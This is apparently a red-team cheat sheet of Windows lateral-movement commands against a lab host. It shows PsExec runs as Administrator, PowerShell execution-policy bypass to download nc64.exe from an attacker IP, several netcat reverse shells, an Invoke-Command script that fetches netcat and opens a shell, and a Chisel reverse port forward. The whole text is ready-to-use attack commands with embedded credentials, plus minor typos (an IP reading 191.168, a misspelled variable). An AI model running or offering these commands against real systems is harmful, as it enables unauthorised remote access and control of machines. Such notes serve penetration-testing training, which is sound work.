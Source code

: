 ## Tool: Psexec.exe

To launch a command prompt on a remote machine (using password)

- ``` .\psexec.exe -accepteula -s \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password cmd.exe ```

To download nc64.exe on a remote machine (using password)

- ``` C:\Users\Public\psexec.exe -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe; ```

To get a reverse shell (using password) (requires nc64.exe to be downloaded on the target machine)

- PowerShell 1: ``` .\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p qNkr96DvM03s58ckId8Bi867iuLp4BUNKbOTjFuHMrDu5AtI cmd.exe /c C:\users\Public\nc64.exe 191.168.14.10 8080 -e "powershell.exe -Executionpolicy bypass" ```

- PowerShell 2: ``` C:\Users\Public\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c C:\Users\Public\nc64.exe 192.168.14.10 8008 -e powershell.exe ```

- Cmd: ``` .\psexec.exe -accepteula \\ws01 -u ws01\Administrator -p password cmd.exe /c C:\users\Public\nc64.exe 192.168.14.10 8080 -e cmd.exe```

## Tool: PSRemote

To download nc64.exe on a remote machine and obtain a reverse shell (using PSCredential object)

```powershell
[string]$userName = 'yaksas'
[string]$userPassword = 'password'

# Convert to SecureString
[securestring]$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
[pscredential]$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)

Invoke-Command -Scriptblock {wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8081 -e powershell.exe} -computername ws01 -credential $credOjbect
```

## Tool: Chisel

To forward local port 80 

```Start-job -name "chisel" -ScriptBlock {C:\Users\yks\appdata\chisel.exe client 192.168.14.10:8080 R:8008:127.0.0.1:80}```

